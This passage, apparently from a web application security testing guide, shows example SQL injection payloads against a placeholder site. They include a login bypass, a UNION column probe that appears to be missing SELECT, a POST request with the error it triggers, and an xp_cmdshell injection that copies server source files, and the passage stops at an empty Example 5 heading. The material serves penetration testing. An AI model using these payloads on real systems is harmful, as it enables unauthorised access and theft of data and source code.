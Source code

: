 ### Example 1: Testing for SQL Injection in a GET request.

The most simple (and sometimes most rewarding) case would be that of a
login page requesting an user name and password for user login. You can
try entering the following string "' or '1'='1" (without double quotes):

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

If the application is using Dynamic SQL queries, and the string gets
appended to the user credentials validation query, this may result in a
successful login to the application.

### Example 2: Testing for SQL Injection in a GET request

In order to learn how many columns exist

`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`

### Example 3: Testing in a POST request

SQL Injection, HTTP POST Content:
email=%27\&whichSubmit=submit\&submit.x=0\&submit.y=0

A complete post example:

`POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1`
`Host: vulnerable.web.app`
`User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13`
`Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5`
`Accept-Language: en-us,en;q=0.5`
`Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7`
`Keep-Alive: 300`
`Proxy-Connection: keep-alive`
`Referer: http://vulnerable.web.app/forgotpass.asp`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 50`
` email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

The error message obtained when a ' (single quote) character is entered
at the email field is:

`Microsoft OLE DB Provider for SQL Server error '80040e14'`
`Unclosed quotation mark before the character string '' '.`
`/forgotpass.asp, line 15 `

### Example 4: Yet another (useful) GET example

Obtaining the application's source code

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: custom xp_cmdshell
